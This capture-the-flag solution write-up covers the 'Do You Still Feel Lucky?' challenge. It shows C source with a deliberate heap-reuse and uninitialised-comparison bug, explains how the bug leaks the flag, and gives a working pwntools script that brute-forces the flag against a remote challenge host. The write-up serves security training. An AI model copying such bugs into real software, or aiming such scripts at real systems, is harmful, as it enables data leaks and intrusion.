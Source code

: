 # Do You Still Feel Lucky? -- Solution

The user is given a seemingly impossible task of guessing the flag with useful feedback given when more than half the flag characters are guessed and again when all but two characters are guessed.


```c
void read_flag() {
  FILE* in;
  
  in = fopen("flag.txt", "rt");
  fgets(flag, 64, in);
  flag_length = strlen(flag);
  fclose(in);
}

void guess_flag() {
  int guess_length;
  char *guess;
  int ncorrect;
  int i;
  
  puts("Try to guess the flag!");
  puts("Enter the length of your guess:");
  scanf("%d", &guess_length);
  getchar();
  guess = malloc(guess_length);
  puts("Enter your guess:");
  fgets(guess, guess_length, stdin);

  ncorrect = 0;
  for (i=0; i<guess_length && i<flag_length; i++)
    if (guess[i] == flag[i])
      ncorrect++;

  if (ncorrect == flag_length)
    puts("Got it!");
  else if (ncorrect == flag_length-2)
    puts("Almost!");
  else if (ncorrect*2 >= flag_length)
    puts("Getting there!");
  else
    puts("Not even close.");
  
  free(guess);
}
```

Exploit is possible due to a bug in how the guess is read and compared to the flag, but also a bit of luck with the allocator:

1. With the provided libc, `fgets` will allocate (and subsequently free) heap memory to store the data read from the file -- the flag in our case. Later, when `malloc` is used to allocate memory for the guess, it will return the same heap address used by `fgets` that will *already contain the flag*.

2. If the user sends a string shorted than `guess_length`, the string is zero-terminated, but all the `guess_length` number of characters will be compared to the flag. Hence, as long as the user sends some *prefix* of the flag, the number of calculated number of correct characters will be `n-2` (all except newline and zero characters). 

Therefore, we can search the flag characters one by one always maintaining a correct prefix.

```python
#!/usr/bin/env python3

import string

from pwn import *

def conn():
    context.update(arch='amd64', os='linux', terminal=['tmux', 'new-window'])
    if args.REMOTE:
        p = remote( '0.cloud.chals.io', 25330)
    else:
        p = process('./chall')
    return p

def guess(k, s):
    p = conn()
    p.sendlineafter(b':\n', str(k).encode())
    p.sendlineafter(b':\n', s.encode())
    ret = p.recvline()
    p.close()
    return ret.strip().decode('ascii')
    
C = 'TBTL'
for i in range(60):
    next = None
    for x in string.printable:
        g = guess(64, C+x)
        print(C+x, g)
        if g == 'Got it!':
            print(C+x)
            exit()
        elif g[0] == 'A':
            next = x
            break 
    assert next
    C += x
```